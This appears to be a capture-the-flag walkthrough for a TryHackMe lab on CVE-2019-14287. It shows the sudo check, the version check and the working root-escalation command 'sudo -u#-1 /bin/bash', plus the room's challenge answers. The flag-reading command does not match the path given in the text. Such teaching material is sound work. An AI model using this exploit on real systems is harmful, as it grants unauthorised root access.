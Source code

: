 ```yaml
---
title: Sudo Security Bypass - TryHackMe
published: 2020-08-16
description: 'A step-by-step guide to identifying and exploiting CVE-2019-14287 in the Unix Sudo Program.'
image: './cover.jpg'
tags: [TryHackMe, CVE-2019-14287, Sudo, Privilege Escalation]
category: 'TryHackMe'
draft: false
---
```


## Introduction

This guide provides a detailed walkthrough for identifying and exploiting CVE-2019-14287, a privilege escalation vulnerability in the Unix Sudo program. This is Room One in the SudoVulns Series on TryHackMe, designed to teach security bypass techniques.

:::linkbox
**TryHackMe Room: Sudo Security Bypass**  
A tutorial room exploring CVE-2019-14287 in the Unix Sudo Program. Room One in the SudoVulns Series.  
[Visit Room](https://tryhackme.com/room/sudovulnsbypass?source=post_page-----c78cb21aa0cb---------------------------------------)
:::

## Task 1: Deploy

To begin, deploy the TryHackMe machine and connect to it using SSH with the following command, replacing `<port-number>`, `<username>`, and `<remote-machine-ip>` with the values provided by TryHackMe:

```bash
ssh -p <port-number> <username>@<remote-machine-ip>
```

:::note
 Ensure you have the correct credentials and port number from the TryHackMe room instructions.
:::

---

## Task 2: Security Bypass

### Checking for Vulnerability

To determine if the target machine is vulnerable to CVE-2019-14287, first check the sudo configuration by running:

```bash
sudo -l
```

**Expected Output**:
```
User <username> may run the following commands on <hostname>:
    (ALL, !root) /bin/bash
```

If the output includes `(ALL, !root) /bin/bash`, the machine may be vulnerable, as this configuration allows the user to run `/bin/bash` as any user except `root`—a restriction that CVE-2019-14287 can bypass.

![sudo -l output](https://miro.medium.com/v2/resize:fit:2000/format:webp/1*dkduYM7DGoO1UrI6wC7STg.png)
*Image: Output of `sudo -l` showing the vulnerable configuration `(ALL, !root) /bin/bash`.*

To confirm vulnerability, check the sudo version:

```bash
sudo --version
```

![sudo version check](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*tljqQqVfF7IUSVvIk_FJFA.png)
*Image: Checking the sudo version to confirm vulnerability (Sudo < 1.8.28).*

If the version is **Sudo < 1.8.28** (e.g., 1.8.27 or earlier), the machine is vulnerable. This is because CVE-2019-14287 exploits a flaw in how sudo handles negative user IDs.

:::note
 This vulnerability was patched in Sudo version 1.8.28, released in October 2019.
:::

### Exploiting the Vulnerability

CVE-2019-14287 allows a user to bypass the `(ALL, !root)` restriction by specifying an invalid user ID (`-u#-1`), which sudo interprets as the root user due to improper validation. To exploit this, run:

```bash
sudo -u#-1 /bin/bash
```

![security bypass exploit](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*XxHCy_a432wtnCSVzlsVSQ.png)
*Image: Executing the exploit command `sudo -u#-1 /bin/bash` to gain a root shell.*

This command grants a root shell, as the `-u#-1` flag tricks sudo into running `/bin/bash` as the root user (UID 0).

### Capturing the Root Flag

With root access, navigate to the `/root` directory and read the `root.txt` file to retrieve the flag:

```bash
cd /root
cat /root.txt
```

![root flag](https://miro.medium.com/v2/resize:fit:1400/format:webp/1*SPWk07gIDobGn4ljOGAq8g.png)
*Image: Displaying the root flag from `/root/root.txt`.*

The flag will be in the format `THM{...}`.

---

## Challenges

**#1. What command are you allowed to run with sudo?**  
**Answer**: `/bin/bash`

**#2. What is the flag in /root/root.txt?**  
**Answer**: `THM{l33t_********_******}`

---

## Conclusion

Congratulations! You’ve successfully identified and exploited CVE-2019-14287 to bypass sudo’s security restrictions and capture the root flag. This exercise demonstrates the importance of keeping software up to date to mitigate known vulnerabilities.

---
